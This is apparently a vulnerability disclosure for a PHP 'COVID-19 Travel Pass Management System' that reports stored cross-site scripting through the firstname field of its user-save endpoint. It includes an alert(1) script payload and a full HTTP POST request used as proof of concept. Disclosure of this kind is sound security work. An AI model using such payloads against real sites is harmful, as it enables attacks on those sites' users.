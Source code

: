 # covid-19-travel-pass-management-system v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ctpms/classes/Users.php?f=save

Vulnerability location: /ctpms/classes/Users.php?f=save, firstname

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /ctpms/classes/Users.php?f=save HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3611536016190209454970609370
Content-Length: 1036
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ctpms/admin/?page=user/manage_user&id=7
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="id"

7
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="firstname"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="middlename"

dgfd
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="lastname"

gfdf
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="username"

gdf
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="password"


-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="type"

1
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------3611536016190209454970609370--

```

![](https://github.com/mikeccltt/bug_report_CVE/blob/main/Covid-19-Travel-Pass-Management-System/xss.gif?raw=true)
